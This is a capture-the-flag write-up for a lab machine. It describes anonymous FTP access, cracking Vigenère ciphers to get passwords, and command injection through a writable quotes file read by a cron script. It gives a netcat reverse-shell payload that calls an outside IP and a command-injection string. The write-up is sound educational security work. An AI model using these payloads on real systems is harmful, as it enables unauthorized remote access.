 # Break Out The Cage

### Investigate!
Nmap scan shows ports 21,22 and 80 open. 
The FTP server allows anonymous login and it contains a file called `dad_tasks`. This file contains a base64 encoded strings, but If I try to decode it: <br />
![image](https://github.com/user-attachments/assets/aec6f328-bdf5-46b5-840e-b115892bb42e)<br />
It looks still encrypted somehow. I tried everything, such as rotating, caesar cipher and other stuff but nothing. <br />
Then I found [this online tool](https://www.boxentriq.com/code-breaking/cipher-identifier) that tries to indentify what type of cipher has been used based on the ciphertext: <br />
![image](https://github.com/user-attachments/assets/a59b609d-7406-4697-82b4-ed7d5baae8a4)<br />
There's this other [online tool](https://www.guballa.de/vigenere-solver) that can be used to break this cipher and get watson ssh password. I need to move to the account `cage` to get the user flag. If I run `sudo -l`, I get: <br />
![image](https://github.com/user-attachments/assets/baf6d5f5-a4d9-4773-bcc8-d23e2bb682ab)<br />
But this seams useless, it just prints stuff on the console. Further enumerating the machine, I found something interesting inside `/opt`:<br />
![image](https://github.com/user-attachments/assets/9a06bef5-427f-4c09-ac6e-b8c1f6354e3d)<br />
This is the code of the python script: <br />
![image](https://github.com/user-attachments/assets/cbed9e93-ccd2-43b4-8c88-6869166bb72f)<br />
This script is a cronjob, because once in a while I see some random banners appearing on the console. It basically selects all the strings from a file called `.quotes`, and then shows one of them on the screen with `os.system("wall " + quote)`. Now here's the interesting part: <br />
![image](https://github.com/user-attachments/assets/5d725f6b-87f7-4bda-9a92-423478316d2e)<br />
I am part of the `cage` group, and the `cage` group has write access to this `.quotes` file. This means that I can change this file and try to inject a command, such as a reverse shell, inside `os.system("wall " + quote)` to execute something like `wall ""; whoami #"`. Let's try it.<br />
I modified the `.quotes` file as such: <br />
![image](https://github.com/user-attachments/assets/2b629247-0ece-435d-a019-d22e4378c7b8)<br />
And it works!: <br />
![image](https://github.com/user-attachments/assets/eb3264d2-dbd9-4b9a-a80e-b74a7f532ea8)<br />
To spawn a reverse shell, I used this payload: `$(busybox nc 10.11.85.53 9001 -e sh)`, and got the user flag. Now, in cage's home directory, there's this email: <br />
![image](https://github.com/user-attachments/assets/15fbf78c-3c8e-4410-9e9d-f76ab17751bc)<br />
This is again using vigenère cipher, and the key is `FACE`:<br />
![image](https://github.com/user-attachments/assets/4c79ee15-fe82-4bbf-be82-8277c837a536)<br />
The decoded word is the root password. 





